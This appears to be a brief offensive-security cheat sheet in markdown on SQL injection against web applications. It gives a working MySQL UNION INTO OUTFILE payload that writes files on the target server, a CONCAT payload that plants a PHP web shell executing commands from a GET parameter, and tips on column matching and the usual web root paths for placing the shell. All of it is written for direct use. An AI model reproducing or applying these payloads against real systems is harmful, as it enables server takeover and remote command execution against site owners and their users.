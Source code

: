 # Web Application Attacks

## Table of Contents
* [SQL Injection](#sql-injection)


## SQL Injection

### MySQL UNION SQL Injection to save [TEXT] into [FILE] on target system
```
UNION ALL SELECT '[TEXT]' INTO OUTFILE '[FILE]'#
```
When saving a PHP web shell to a file via the above SQL Injection, use the following value for [TEXT] (to avoid character-escaping on single-quote characters):
```
CONCAT('<?php echo shell_exec($_GET[',0x27,'cmd',0x27,']); ?>')
```

### Tips on saving files via UNION
- As with any UNION injection, the number of columns in the UNION needs to match the number of columns in the query being modified
- An uploaded file should almost always be written to the web server root (this can often be obtained from verbose web app error messages).
  - Windows: C:\inetpub\wwwroot\
  - Linux:
    - /var/www
    - /var/www/html

